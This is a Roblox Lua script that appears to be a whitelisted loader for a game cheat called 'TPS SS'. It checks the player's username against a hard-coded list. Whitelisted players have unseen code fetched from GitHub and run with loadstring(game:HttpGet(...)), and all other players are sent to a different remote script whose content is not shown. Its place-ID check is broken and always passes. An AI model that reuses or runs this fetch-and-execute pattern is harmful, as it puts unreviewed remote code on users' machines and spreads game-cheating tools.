 local whitelist = {
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "Tpsciawain", 
    "Arda1420",
    "Arda1420",
    "qazztr",
    "Arda1420",
    "Arda1420",
    "scriptdenemetps",
    "Zzz_tps2",
    "2525israfil",
    "itsh0r",
    "tpsciawain", --me
    "Arda1420", 
    "EFREWFTEWT" -- giveaway winner
}

if table.find(whitelist, game.Players.LocalPlayer.Name) then
        local id = game.PlaceId
if id == 335760407 or 13762482705 then
game.StarterGui:SetCore("SendNotification",{
			Title = "Loading...";
			Text = "Loading will take some seconds...";
			Duration = 5;
})
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/dragyeni/main/README.md"))()
else
    game.Players.LocalPlayer:Kick("It's not TPS SS!")
end
else
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/kicked1/main/README.md"))();
end
